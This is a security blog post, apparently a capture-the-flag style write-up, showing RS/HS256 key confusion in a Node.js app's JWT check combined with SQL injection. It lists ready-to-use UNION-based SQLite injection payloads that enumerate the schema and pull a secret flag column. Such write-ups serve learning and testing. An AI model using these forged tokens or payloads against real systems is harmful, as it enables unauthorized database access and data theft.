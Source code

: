 [back](/blog)

### SQL injection in Node.js webapp and JSON Web Tokens (JWT)

What JSON Web Token (JWT) is? It is an open standard [RFC 7519](https://tools.ietf.org/html/rfc7519) for creating access tokens, in accordance with which information is transmitted in the form of a JSON object. JSON signature algorithms are used to secure the transmission of such information. For more information about JWT read: [jwt.io](https://jwt.io/introduction/). There are a number of interesting techniques for exploiting vulnerabilities in JWT, but in this example I would like to show the **RS/HS256 public key mismatch vulnerability** and SQL injection exploitation through this vulnerability.

In this example there is a server with a Node.js runtime and a SQLite database, here is the example of authorization and receipt of JWT:

![Image](/img/RS_HS256/auth_jwt.png)

JWT consists of three parts: Header, Payload, Verify Signature, encoded in Base64 format and separated by a dot:

![Image](/img/RS_HS256/jwt_decode.png)

In the process of examining the code of the Node.js web application, a fragment of an SQL query was found with the direct inclusion of the value of the parameter, which is controlled by the user: **${username}:**

![Image](/img/RS_HS256/auth_code.png)

![Image](/img/RS_HS256/vuln_code.png)


To investigate possible SQL injection and JWS token signing via **RS/HS256 public key mismatch** I used [jwt_tool](https://github.com/ticarpi/jwt_tool) tool. To generate payload, it need to change the value of the **${username}** parameter and then sign the JWS using public.key. A valid JWS is specified as a parameter for the tool:

![Image](/img/RS_HS256/jwtool_1.png)

![Image](/img/RS_HS256/jwtool_pub_key_sign.png)

The SQL injection research process was accompanied by the use of the following payloads:

The answer "HTTP/1.1 200 OK" means there is an SQL injection:
```
"username" : "jaki' and 1=1 -- -"
```

![Image](/img/RS_HS256/jwtool_true_sqli.png)

![Image](/img/RS_HS256/valid_jwt_200.png)

Number of columns in error for UNION SELECT structure:
```
"username" : "' order by 5; -- -"
```

![Image](/img/RS_HS256/jwtool_sqli_2.png)

![Image](/img/RS_HS256/sqli_union_columns.png)

SQLite version:
```
"username" : "' union select 1,sqlite_version(),3; -- -"
```

![Image](/img/RS_HS256/jwtool_sqli_3.png)

![Image](/img/RS_HS256/sqli_ver.png)

List of all database objects and the SQL request used to create each object:
```
"username" : "' union select  1,(SELECT group_concat(sql) FROM sqlite_master),3; -- -"
```

![Image](/img/RS_HS256/jwtool_sqli_4.png)

![Image](/img/RS_HS256/sqli_master.png)


Retrieving sensitive information from the target table:
```
"username" : "' union select  1,(SELECT group_concat(top_secret_flaag) FROM flag_storage),3; -- -"
```

![Image](/img/RS_HS256/jwtool_sqli_5.png)

![Image](/img/RS_HS256/sqli_flag.png)


<div id="disqus_thread"></div>
<script>
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://hackitfaster-hopto-org.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

[back](/blog)